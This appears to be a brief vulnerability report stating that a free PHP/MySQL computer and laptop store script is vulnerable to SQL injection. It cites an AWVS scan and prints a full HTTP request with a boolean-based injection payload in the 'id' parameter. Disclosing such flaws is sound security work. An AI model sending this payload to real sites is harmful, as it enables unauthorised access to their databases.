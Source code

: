 

# Online Computer and Laptop Store using PHP and MySQL Source Code Free Download Submitted by oretnom23 has SQL injection

#### BUG_Author: xxxw

#### vendors

 https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

#### AWVS Scan result

![image-20231202094949132](https://gitee.com/xw1150/images/raw/master/img/202312020950619.png)

#### Resquest

`GET /php-ocls/?id=c81e728d9d4c2f636f067f89cc14862c'%20AND%203*3*9<(2*4)%20AND%20'000jUFD'='000jUFD&p=view_product HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.3.11/php-ocls/
Cookie: PHPSESSID=r1b1popg85sqjke1o3tqnjvpts
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`
`Accept-Encoding: gzip,deflate,br`
`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36`
`Host: 192.168.3.11`
`Connection: Keep-alive`